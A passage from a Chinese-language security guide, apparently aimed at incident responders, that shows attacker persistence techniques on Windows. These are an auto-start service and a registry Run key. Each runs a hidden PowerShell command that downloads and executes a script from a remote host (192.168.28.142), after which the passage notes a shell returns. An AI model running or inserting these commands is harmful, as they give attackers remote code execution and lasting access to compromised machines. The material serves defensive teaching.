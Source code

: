 ![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-13.png)

**服务自启动后门**

```
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

```
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-15.png)

账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。

## 第7篇：常见WebShell管理工具



攻击者在入侵网站时，通常要通过各种方式写入Webshell，从而获得服务器的控制权限，比如执行系统命令、读取配置文件、窃取用户数据，篡改网站页面等操作。
